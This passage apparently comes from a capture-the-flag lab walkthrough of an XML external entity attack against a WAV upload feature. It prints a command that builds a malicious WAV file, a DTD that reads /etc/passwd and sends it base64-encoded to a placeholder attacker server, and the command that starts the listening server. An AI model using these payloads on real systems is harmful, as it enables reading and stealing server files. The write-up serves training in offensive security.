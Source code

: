 Now we can create a malicious WAV file.

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://[Our IP]:[PORT]/[FILE].dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

Now create an `evil.dtd` file to store the next part of the payload

```dtd
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY % trick SYSTEM 'http://YOURSERVERIP:PORT/?p=%file;'>" >
```

Now open a webserver on your machine with:

```bash
php -S 0.0.0.0:[PORT]
```

And you'll receive something like this...

![](./assets/server.png)

The request made to the server is the base64 encoded version of our query

--------------------------------------------------------------------------------

### Ready Set Go!

--------------------------------------------------------------------------------

```bash
export IP=10.10.83.190
```

#### Constructing the Payload

Using the methodology of the exploit just explained to us - we can login as `test-corp` with the password `test`.

Once we navigate to the upload section, we can already notice a cheeky `payload.wav` waiting for us and big hint as to what is about to come.
